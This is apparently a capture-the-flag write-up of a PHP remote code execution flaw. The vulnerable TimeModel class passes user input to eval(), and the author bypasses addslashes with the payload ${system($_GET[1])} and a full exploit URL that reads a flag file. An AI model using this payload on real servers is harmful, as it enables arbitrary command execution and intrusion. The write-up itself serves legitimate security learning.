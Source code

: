 # LOKTOK WRITE ^UP^

---

## Vulnerable Code @ TimeModel.php

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
## vulnerable code + explination
```php
<?php
    public function getTime()
    { 
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    } 
?>
```
- eval(), Evaluate a string as PHP code
- we use this to get PHP code execution
- double qoutes are sanitized here

## Uh-Oh remember that the in this situation double qoutes are sanitized!
```php
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
```

```php
so how do we bypass this???
instead of: ${system("ls")}
we would do: ${system($_GET[1])}&1=ls
```

---

## win

```
http://209.97.129.28:30441/?format=${system($_GET[1])}&1=cat%20../flagIcYOI
```
- we use ${system($_GET[1])}&1=ls as our payload
```php
         ^ ^      ^         ^
         | |      |         |
         | |      |         | & is our pointer to the index location 1, which we can use to execute arbitrary system commands via system() respectively 
         | |      |
         | |      | HTTP GET variable, we hold this dictionary with the key number "1" ; $_GET[1]
         | |
         | | Execute an external program and display the output
         | 
         | ${} provides a a way to embed a variable, array, or object property in a string.
```
